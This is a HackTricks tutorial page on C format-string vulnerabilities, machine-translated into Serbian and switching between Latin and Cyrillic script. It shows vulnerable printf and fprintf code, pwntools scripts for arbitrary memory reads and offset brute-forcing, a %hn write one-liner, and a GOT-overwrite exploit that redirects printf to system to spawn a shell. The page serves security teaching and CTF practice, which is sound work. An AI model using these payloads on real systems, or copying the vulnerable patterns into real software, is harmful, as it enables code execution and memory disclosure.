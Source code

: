 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_tečno poljski u pisanju i govoru je obavezno_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

U C **`printf`** je funkcija koja se može koristiti za **štampanje** nekog stringa. **Prvi parametar** koji ova funkcija očekuje je **sirovi tekst sa formatima**. **Sledeći parametri** koji se očekuju su **vrednosti** za **zamenu** **formatera** iz sirovog teksta.

Druge ranjive funkcije su **`sprintf()`** i **`fprintf()`**.

Ranjivost se pojavljuje kada se **tekst napadača koristi kao prvi argument** ovoj funkciji. Napadač će moći da kreira **poseban unos koji zloupotrebljava** **printf format** string mogućnosti da pročita i **zapiše bilo koje podatke na bilo kojoj adresi (čitljivo/zapisivo)**. Na ovaj način će moći da **izvrši proizvoljan kod**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Primeri:**

* Ranjivi primer:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normalna upotreba:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Sa nedostajućim argumentima:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf ranjiv:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pristupanje Pokazivačima**

Format **`%<n>$x`**, gde je `n` broj, omogućava da se printf-u naznači da izabere n-ti parametar (sa steka). Dakle, ako želite da pročitate 4. parametar sa steka koristeći printf, mogli biste to uraditi:
```c
printf("%x %x %x %x")
```
и могли бисте читати од првог до четвртог параметра.

Или бисте могли да урадите:
```c
printf("%4$x")
```
и директно прочитати четврту.

Обратите пажњу да нападач контролише `printf` **параметар, што у основи значи да** ће његов унос бити у стеку када се позове `printf`, што значи да може написати специфичне адресе у меморији у стеку.

{% hint style="danger" %}
Нападач који контролише овај унос, моћи ће да **дода произвољну адресу у стек и натера `printf` да им приступи**. У следећем одељку биће објашњено како користити ово понашање.
{% endhint %}

## **Произвољно Читање**

Могуће је користити форматор **`%n$s`** да натера **`printf`** да добије **адресу** која се налази на **n позицији**, следећи је и **одштампа као да је то низ** (одштампа до 0x00). Дакле, ако је базна адреса бинарног фајла **`0x8048000`**, и знамо да кориснички унос почиње на 4. позицији у стеку, могуће је одштампати почетак бинарног фајла са:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Napomena da ne možete staviti adresu 0x8048000 na početak ulaza jer će string biti prekinut u 0x00 na kraju te adrese.
{% endhint %}

### Pronađi offset

Da biste pronašli offset do vašeg ulaza, možete poslati 4 ili 8 bajtova (`0x41414141`) praćenih **`%1$x`** i **povećavati** vrednost dok ne dobijete `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Koliko je korisno

Arbitrarna čitanja mogu biti korisna za:

* **Ispis** **binarne** datoteke iz memorije
* **Pristup specifičnim delovima memorije gde je smeštena** **osetljiva** **informacija** (kao što su kanarini, ključevi za enkripciju ili prilagođene lozinke kao u ovom [**CTF izazovu**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitrarno Pisanje**

Formatirac **`%<num>$n`** **piše** **broj napisanih bajtova** u **naznačenu adresu** u \<num> parametru na steku. Ako napadač može da piše onoliko karaktera koliko želi sa printf, moći će da napravi da **`%<num>$n`** piše proizvoljan broj na proizvoljnu adresu.

Srećom, da bi se napisao broj 9999, nije potrebno dodavati 9999 "A" u ulaz, da bi se to postiglo moguće je koristiti formatirac **`%.<num-write>%<num>$n`** da bi se napisao broj **`<num-write>`** u **adresu koju pokazuje `num` pozicija**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Međutim, imajte na umu da se obično za pisanje adrese kao što je `0x08049724` (što je OGROMAN broj za pisanje odjednom), **koristi `$hn`** umesto `$n`. Ovo omogućava da **se napiše samo 2 Bajte**. Stoga se ova operacija vrši dva puta, jednom za najviših 2B adrese i drugi put za najniže.

Stoga, ova ranjivost omogućava **pisanje bilo čega na bilo kojoj adresi (arbitrarno pisanje).**

U ovom primeru, cilj će biti da se **prepiše** **adresa** **funkcije** u **GOT** tabeli koja će biti pozvana kasnije. Iako bi ovo moglo zloupotrebiti druge tehnike arbitrarno pisanje za izvršavanje:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Mi ćemo **prepisati** **funkciju** koja **prima** svoje **argumente** od **korisnika** i **usmeriti** je na **`system`** **funkciju**.\
Kao što je pomenuto, za pisanje adrese obično su potrebna 2 koraka: Prvo **napišete 2Bajta** adrese, a zatim ostala 2. Da biste to uradili, koristi se **`$hn`**.

* **HOB** se poziva na 2 viša bajta adrese
* **LOB** se poziva na 2 niža bajta adrese

Zatim, zbog načina na koji funkcioniše format string, morate **prvo napisati manji** od \[HOB, LOB] i zatim drugi.

Ako je HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Ako je HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Šablon

Možete pronaći **šablon** za pripremu eksploita za ovu vrstu ranjivosti u:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ili ovaj osnovni primer iz [**ovde**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Moguće je zloupotrebiti akcije pisanja ranjivosti format stringa da se **piše u adrese steka** i iskoristi ranjivost tipa **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, osnovna upotreba format stringova za leak flag-a iz steka (nije potrebno menjati tok izvršenja)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, format string za prepisivanje adrese `fflush` sa win funkcijom (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, format string za pisanje adrese unutar main u `.fini_array` (tako da se tok vraća još jednom) i pisanje adrese u `system` u GOT tabeli koja pokazuje na `strlen`. Kada se tok vrati u main, `strlen` se izvršava sa korisničkim unosom i pokazuje na `system`, izvršiće prosleđene komande.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hacking karijeru** i da hakujete ono što se ne može hakovati - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
